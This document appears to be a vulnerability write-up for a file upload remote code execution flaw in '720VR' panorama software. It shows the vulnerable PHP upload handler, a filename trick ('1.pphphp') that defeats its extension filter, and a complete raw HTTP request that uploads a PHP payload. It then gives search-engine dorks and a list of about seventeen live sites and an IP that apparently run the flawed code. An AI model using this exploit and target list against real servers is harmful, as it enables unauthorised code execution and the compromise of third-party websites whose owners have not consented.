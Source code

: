# 720VR File upload RCE
## Source code analysis
The reason was that the school's VR site exposed the source code, and then the white box audit revealed the hole but could not be utilized (the school has WAF to automatically intercept malicious files), so I tried to search for the same source code site on Google syntax and successfully utilized it.
/App/Tools/Uploader/done.php and/App/Tools/Plupload/upload.chp are two file upload interfaces
```
<?php
define('UPLOAD_ROOT', str_replace("\\", '/', dirname(__FILE__)));
$allbase = UPLOAD_ROOT;
$basearr = explode("/App/", $allbase);
$base = $basearr[0];
$nowtime = time();
$basedir = "/uploads/station";
if (is_dir($base . $basedir) == FALSE) {
mkdir($base . $basedir);
}
$filetype = explode(".", $_FILES['Filedata']['name']);
$len = count($filetype) - 1;
$filetype = $filetype[$len];
$pinfo = basename($_FILES['Filedata']['tmp_name']);
$pinfo = explode(".", $pinfo);
$pinfo = $nowtime . $pinfo[0] . "." . $filetype; //Generate file name
$pinfo = str_replace("php", "", $pinfo);
$fileurl = $basedir . "/" . $pinfo;
if (move_uploaded_file($_FILES['Filedata']['tmp_name'], $base . $fileurl)) {
echo $fileurl;
}
?>
```
Before uploading the file, there is a judgment: $pinfo=str_deplace ("php", "", $pinfo);
This function can be bypassed, double written, and then uploaded as a PHP file, which is **1.pphphp**
After being processed by this function, it becomes 1.php
## Exploiting vulnerabilities
The vulnerability effect is as follows:
![](1.png)
visit http://www.dazhubim.com/uploads/station/1751943200999.php
![](2.png)
## Original data packet
```
POST /App/Tools/Uploader/done.php HTTP/1.1
Host: www.dazhubim.com
Content-Length: 309
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data;  boundary=----WebKitFormBoundarybdbxlJtXrPVqZLdL
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml; q=0.9,image/avif,image/webp,image/apng,*/*; q=0.8,application/signed-exchange; v=b3; q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh; q=0.9
Connection: close
------WebKitFormBoundarybdbxlJtXrPVqZLdL
Content-Disposition: form-data;  name="Filedata";  filename="1.pphphp"
Content-Type: text/plain
<?php phpinfo();? >
------WebKitFormBoundarybdbxlJtXrPVqZLdL
Content-Disposition: form-data;  name="submit"
Upload file
------WebKitFormBoundarybdbxlJtXrPVqZLdL--
```
## Example site
bing:"720vr全景软件"  
google:"720vr全景软件淘宝店独家销售" OR "720vr全景软件淘宝店独家开发"
```
http://www.dazhubim.com/App/Tools/Uploader/done.php
https://tinglan.net/App/Tools/Uploader/done.php
http://720qjlm.com/App/Tools/Uploader/done.php
https://pano-admin.huanjutang.com/App/Tools/Uploader/done.php
https://123xvr.net/App/Tools/Uploader/done.php
https://www.twmlzg.com/App/Tools/Uploader/done.php
https://ai.86pano.com/vr/App/Tools/Uploader/done.php
https://www.yunshangchongqing.com/App/Tools/Uploader/done.php
https://vr.aitrace.com/App/Tools/Uploader/done.php
https://vr.xhjj.com/App/Tools/Uploader/done.php
http://www.quanjingyun.net/App/Tools/Uploader/done.php
http://www.dazhubim.com/App/Tools/Uploader/done.php
https://www.yj-3d.com:666/App/Tools/Uploader/done.php
http://vr.newiset.com:8189/App/Tools/Uploader/done.php
https://sfthink.com/App/Tools/Uploader/done.php
https://111.230.51.217/App/Tools/Uploader/done.php
https://vr.lzxqzc.com/App/Tools/Uploader/done.php
```
